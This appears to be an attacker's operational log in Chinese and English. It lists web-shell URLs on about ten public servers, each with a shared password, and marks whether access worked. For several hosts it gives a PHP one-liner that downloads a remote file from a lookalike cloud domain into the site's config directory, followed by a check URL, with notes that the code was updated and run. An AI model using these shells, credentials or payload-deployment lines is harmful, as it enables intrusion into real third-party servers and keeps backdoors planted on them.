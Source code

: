http://121.40.25.18/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://121.40.25.18/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.40.25.18/config/httpd.php?d=up

http://8.141.86.91/template/default/bootstrap/js/js.php |mmk123 | 连接不上
https://htgw.jszfti.com//template/default/bootstrap/js/js.php |mmk123 |  47.102.194.106
https://htgw.jszfti.com//template/default/bootstrap/js/js.php |mmk123 |  47.102.194.106

http://39.105.31.159/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://39.105.31.159/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.31.159/config/httpd.php?d=up

http://47.102.194.106/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.102.194.106/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.102.194.106/config/httpd.php?d=up

http://101.201.39.203/template/default/bootstrap/js/js.php |mmk123 | 执行失败
http://101.37.86.219/template/default/bootstrap/js/js.php |mmk123  | 连接不上

http://47.113.123.5/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.113.123.5/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.113.123.5/config/httpd.php?d=up

http://47.94.13.2:8000/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.94.13.2:8000/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.94.13.2:8000/config/httpd.php?d=up

http://47.93.60.207/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.93.60.207/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.93.60.207/config/httpd.php?d=up
